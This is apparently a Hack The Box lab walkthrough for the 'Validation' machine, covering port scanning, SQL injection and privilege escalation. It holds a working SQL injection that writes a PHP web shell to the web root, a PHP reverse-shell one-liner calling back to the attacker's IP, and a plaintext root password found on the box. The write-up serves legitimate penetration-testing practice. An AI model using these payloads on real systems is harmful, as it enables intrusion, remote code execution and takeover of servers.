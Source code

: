 # HTB - Validation

#### Ip: 10.10.11.116
#### Name: Validation
#### Rating: Easy

----------------------------------------------------------------------

Validation.png

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Validation]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.116
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:35 CDT
Nmap scan report for 10.10.11.116
Host is up (0.066s latency).
Not shown: 65522 closed tcp ports (reset)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
8080/tcp open     http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
```

Lets enumerate open ports a bit further and use the `-sC` and `-sV` flags to use default Nmap scripts and to enumerate versions. I'll also use the `-T4` flag to increase the threads and speed things up.

```text
┌──(ryan㉿kali)-[~/HTB/Validation]
└─$ sudo nmap -sC -sV -T4 10.10.11.116 -p 22,80,4566,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 12:02 CDT
Nmap scan report for 10.10.11.116
Host is up (0.069s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.48 seconds
```

Navigating to the site on port 80, we find a page that looks to be a signup for UHC. 

site.png

Lets capture the request in BurpSuite and see how the registration looks:

```text
POST / HTTP/1.1
Host: 10.10.11.116
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.11.116
Connection: close
Referer: http://10.10.11.116/
Cookie: user=49f68a5c8493ec2c0bf489821c21fc3b
Upgrade-Insecure-Requests: 1

username=howdy&country=Brazil
```

After tinkering around with the username field a bit, I tried adding a `'` character to the end of Brazil in the `country` field, to test for a possible SQL injection, and it seems we may be onto something!

find_sqli.png

I didn't find anything too interesting in the databases, so I'm going to focus my attention on leveraging this SQLi into (hopefully) RCE. 

### Exploitation

Lets try uploading a web shell to `/var/www/html` and see if we can get execution. 

In Burp:

```text
username=howdy&country=Brazil' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/php-shell.php' --+-
```

php-shell.png

Nice! We have code execution:

whoami.png

From here we should just be able to use a one-liner to get a reverse shell on the box. Lets try with PHP first:

After URL encoding: 

```php
php -r '$sock=fsockopen("10.10.14.20",443);system("sh <&3 >&3 2>&3");'
```

I set up a Netcat listener and navigated to:

```text
10.10.11.116/php-shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.20%22%2C443%29%3Bsystem%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

and caught a shell as www-data:

shell.png

Lets quickly stabilize the shell with Python:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

bash.png

ah, no dice. Interestingly, Python doesn't appear to be installed on the box. No worries, we can still stabilize this shell using another command:

```text
/usr/bin/script -qc /bin/bash /dev/null
```

From here we can grab user.txt

user_flag.png

### Privilege Escalation

Browsing around the machine a bit, I find an interesting file back in `/var/www/html` where we originally landed on this box, and find a password.

password.png

Lets try to use this credential to switch users to root:

```text
www-data@validation:/var/www/html$ su -
su -
Password: uhc-9qual-global-pw

root@validation:~# whoami
whoami
root
root@validation:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! All that's left to do now is grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

